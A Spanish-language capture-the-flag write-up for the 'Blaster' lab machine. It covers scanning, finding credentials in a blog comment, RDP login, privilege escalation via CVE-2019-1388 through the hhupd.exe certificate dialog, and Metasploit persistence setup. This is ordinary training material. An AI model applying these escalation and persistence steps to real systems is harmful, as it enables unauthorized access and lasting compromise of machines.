# Blaster

## **Escaneo inicial**
Para comenzar, realizamos un escaneo con **Nmap** para identificar los servicios activos en la máquina. Debido a que no responde al ping, usamos el parámetro `-Pn` para forzar el escaneo.





El escaneo revela dos puertos abiertos:

- **80 (HTTP)**: Servidor web IIS.
- **3389 (RDP)**: Protocolo de Escritorio Remoto.

---

## **Enumeración web**
Accedemos al puerto 80 desde el navegador y encontramos un sitio web. Para descubrir posibles directorios ocultos, utilizamos **Gobuster**:





El escaneo muestra un directorio interesante: `/retro`. Al explorar este directorio, encontramos un blog con varias publicaciones. Una de ellas menciona al usuario *Wade*.


<br>

Ademas de su interés por *"Ready Player One"*.



En los comentarios, se revela una contraseña: `parzival`.



---

## **Acceso al sistema**
Con las credenciales obtenidas (`wade:parzival`), intentamos conectarnos al puerto RDP utilizando **xfreerdp**:


La conexión es exitosa, y ahora tenemos acceso al sistema como el usuario Wade.

---

## **Escalada de privilegios**
En el escritorio del usuario Wade encontramos dos elementos clave:



1. Un archivo llamado `user.txt`, que contiene la primera flag.
2. Un programa llamado `hhupd.exe`.



Investigando más sobre `hhupd.exe`, descubrimos que está relacionado con una vulnerabilidad conocida: **CVE-2019-1388**. Este exploit permite la escalada de privilegios explotando configuraciones incorrectas en certificados.



### Pasos para la escalada:
1. Ejecutamos `hhupd.exe` como administrador.
2. En la ventana emergente, seleccionamos "More Details" y luego "Show Information About the Publisher".

    

3. Esto abre una página web en Internet Explorer.
4. Guardamos la página en la siguiente ruta del sistema: `C:\Windows\System32\*.*`, lo que nos permite abrir una consola CMD con privilegios elevados.

    


5. Verificamos los privilegios con el comando `whoami`:

    

Ahora somos `nt authority\system`. Desde aquí, accedemos al escritorio del administrador y encontramos el archivo `root.txt`, que contiene la segunda flag.




---

## **Persistencia**
Para mantener acceso al sistema incluso después de reinicios, configuramos persistencia utilizando **Metasploit**.

### Configuración:
1. Abrimos Metasploit:

   ```bash
   msfconsole
   ```

2. Seleccionamos el módulo de persistencia local:

    

    ```bash
    use exploit/windows/local/persistence
    ```

    

3. Configuramos las opciones necesarias:

   ```bash
   set session 
   set LHOST 
   set LPORT 
   ```

4. Ejecutamos el módulo:

   ```bash
   run
   ```

Esto asegura que se cree un servicio persistente que ejecutará nuestro payload en cada reinicio del sistema.

---

## **Conclusión**
Hemos comprometido exitosamente la máquina Blaster siguiendo estos pasos:

1. Enumeración inicial para identificar servicios y directorios.
2. Obtención de credenciales desde la web.
3. Acceso mediante RDP.
4. Escalada de privilegios utilizando un exploit conocido.
5. Configuración de persistencia para mantener el control.

### Flags obtenidas:
- **user.txt**: Primera flag encontrada en el escritorio del usuario Wade.
- **root.txt**: Segunda flag ubicada en el escritorio del administrador.

---

### ¡Máquina completada con éxito! 🎉